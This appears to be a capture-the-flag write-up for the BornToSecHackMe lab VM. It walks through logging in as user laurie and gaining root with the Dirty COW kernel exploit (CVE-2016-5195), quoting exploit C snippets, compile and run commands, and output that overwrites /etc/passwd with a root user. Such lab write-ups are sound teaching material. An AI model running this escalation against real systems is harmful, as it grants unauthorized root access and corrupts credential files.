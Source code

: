 # Dirty COW

```shell
$ ssh laurie@192.168.56.101
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
laurie@BornToSecHackMe:~$
```
Since we can login with a normal user `laurie` [after exploiting FTP](https://github.com/4slan/boot2root/blob/main/writeup1.md#ssh-laurie---diffusing-the-bomb), from this point we can execute a [Dirty COW attack](https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c). 

This vulnerability has CVE identifier [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195).

```shell
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The vulnerability has existed in the Linux kernel since version 2.6.22 and has been patched in version 4.8.3.</br>
Our boot2root linux is surely affected.

```c
f = open(filename, O_RDONLY);
fstat(f, &st);
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```
The exploit script firstly create a private copy of a read-only file by calling `mmap`.

```c
pid = fork();
if (pid)
	/* ... */
else {
	pthread_create(&pth, NULL, madviseThread, NULL);
	ptrace(PTRACE_TRACEME);
	kill(getpid(), SIGSTOP);
	pthread_join(pth,NULL);
}
```
Next it calls `fork` to create a race condition. The new thread calls `madvise` function to tell the OS to dump the private copy during the procedure of writing data. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.


When we run the script, it writes a new root to `/etc/passwd` which we don't have writable permission.
```shell
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiDFcnMz5E5z6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Once execution done, we can log as `firefart:42`
```shell
laurie@BornToSecHackMe:~$ su firefart
Password: 42
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```
